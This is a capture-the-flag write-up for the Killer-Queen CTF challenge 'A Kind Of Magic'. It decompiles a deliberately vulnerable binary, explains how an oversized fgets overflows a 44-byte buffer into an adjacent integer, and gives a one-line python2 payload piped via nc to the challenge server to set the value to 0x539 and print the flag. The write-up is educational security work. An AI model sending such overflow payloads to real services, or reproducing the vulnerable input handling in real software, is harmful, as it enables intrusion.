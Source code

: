 +++
title = "Killer-Queen CTF: A Kind Of Magic"
date = "2021-10-29"
aliases = ["AKindOfMagic"]
[ author ]
  name = "Lucas Sass Rósinberg"
+++

# A Kind Of Magic

We get a binary, which asks us for a magic input and outputs "Your magic is", followed by a number. This is 0 unless the input is fairly large. We can test the length and find that the output is 0 until we write the 40th character - then it will always be 10.

That it is 10 is interesting, since this is the ASCII value of a newline - so it could seem like we fill a buffer with 44 characters and the next character is printed back, which will then always be a newline.

Looking into the code in Cutter and decompiling, it looks fairly simple:

```clike=
main(int argc, char **argv)
{
    char **var_40h;
    int var_34h;
    char *s;
    unsigned long var_4h;

    var_4h = 0;
    puts("Is this a kind of magic? What is your magic?: ");
    fflush(_stdout);
    fgets(&s, 0x40, _stdin);
    printf("You entered %s\n", &s);
    printf("Your magic is: %d\n", var_4h);
    fflush(_stdout);
    if (var_4h == 0x539) {
        puts("Whoa we got a magic man here!");
        fflush(_stdout);
        system("cat flag.txt");
    } else {
        puts("You need to challenge the doors of time");
        fflush(_stdout);
    }
    return 0;
}
```

It initializes a string `char* s` and a value `var_4h = 0`. It then takes an input up to 64 characters and assigns to the string. But perhaps the buffer for the string is not as large (44 characters according to our test). This means the next characters overflow into `var_4h`, which is then printed. So we can basically insert any number we want into `var_4h`.

This is very useful, since the next condition checks if `var_4h == 0x539` and if so, we get the flag.

So we can simply pass in 44 random bytes followed by 0x539 (followed by some null bytes to get the newline out of the integer and into the next field):

```
python2 -c "print b'A' * 44 + b'\x39\x05\x00\x00'" | nc 143.198.184.186 5000
```
